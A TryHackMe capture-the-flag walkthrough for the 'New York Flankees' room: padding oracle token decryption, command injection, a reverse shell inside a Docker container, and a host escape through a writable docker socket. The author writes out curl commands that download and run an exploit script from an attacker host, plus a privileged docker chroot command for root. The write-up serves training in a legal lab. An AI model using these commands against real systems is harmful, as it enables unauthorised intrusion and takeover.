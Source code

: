 ## TryHackMe - New York Flankees Walkthrough

`https://tryhackme.com/room/thenewyorkflankees`

# Introduction :

This is a walkthrough for the TryHackMe room *New York Flankees*, which focuses on exploiting a web app via padding oracle, gaining reverse shell access to a Docker container, and escalating to root on the host using Docker misconfigurations.

# 🔍Reconnaissance  

Start with an Nmap scan:  
nmap -sC -sV -p- -T4 <ip> -Pn  

![alt text](Screenshot/Screenshot_2025-06-24_07_07_56.png)  

Nmap ResultGot 2 Ports Open 22 & 8080. Let's visit the site to find any entry point into the system.

On the website, in the *Stefan Test* Menu it shows an error related to padding.

![padding](Screenshot/Screenshot_2025-06-24_06_54_48.png)  

Visit the source code where you will find javascript code related to authentication using token.  

![srccode](Screenshot/Screenshot_2025-06-24_07_00_16.png)

If you manually try to go to /api/debug/ with the Encrypted String "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" , it will print "Custom authentication Success" and if you give wrong token it print "Decryption Error".

So the Backend is Decrypting the String and authenticating the user. May be the Encrypted String Contain Username and Password of the user. And also now we know there is padding error. So lets try to decrypt the string using padding oracle attack.

For this we will use a Github Tool *Padre*  
`https://github.com/glebarez/padre`

![padre](Screenshot/Screenshot_2025-06-24_07_10_53.png)  

This Tool will Crack the Encryption String for you and will provide username and password. -> Flag 1


# Flag 2

Try to login to the Site, Now will see a new Menu *Debug*, were you will get your -> Flag 2


# Flag 3

Now there is option to execute System commands directly. I tried to upload a python shell there using Burp Suite.  

![shell](Screenshot/Screenshot_2025-06-24_07_22_11.png)  

Simple Python PayloadI used a Extensions "Agartha" in Burp Suite which generate many payload for command execution if want to bypass the filters.

![agartha](Screenshot/Screenshot_2025-06-24_07_22_29.png)  

Because i have community version of Burp Suite, I used Turbo Intruder(extension in burp suite) to brute force all the payload generated by Agartha. 
I generated payload for following 3 command in Agartha :

```curl http://<ip>/python-exploit.py -o /tmp/python-expliot.py```  
```chmod +x /tmp/python-expliot.py```  
```python3 /tmp/python-expliot.py```  

After Executing the Payload I Got a Reverse shell, where you can see a .dockerenv file is present which suggest that it is a container.  
![revshell](Screenshot/Screenshot_2025-06-24_07_33_24.png)  

Let's go for third flag which is in the container, For that can go in the app Directory and search there you will find the -> Flag 3


# Final Flag

So, Now Final Flag. Because it is a docker container lets use a docker enumeration tool called deepce.

`https://github.com/stealthcopter/deepce`

Downloads this tool in the lab and execute the tool.  
It's output's will say that docker sock is writable -> Search for it on Hacktricks.

`https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/docker-breakout`  

Read it carefully. Now, Search for docker images in lab  
```docker images```

Use one of the image id of one of the docker images for the next command to be run:

```docker run - privileged -it -v /:/mnt/ d5954e1d9fa4 chroot /mnt/ bash```

You Got a root access to the Container. Got -> Flag 4


# ✅ Conclusion

This room gave solid experience with container breakout techniques and web vulnerabilities.  
Thanks for reading! Let me know if you have questions!

TryHackMe Profile : https://tryhackme.com/p/Sumit003  
LinkedIn : https://www.linkedin.com/in/sumitmaurya03/

tryhackme, cybersecurity, docker, infosec, ethical-hacking, walkthrough
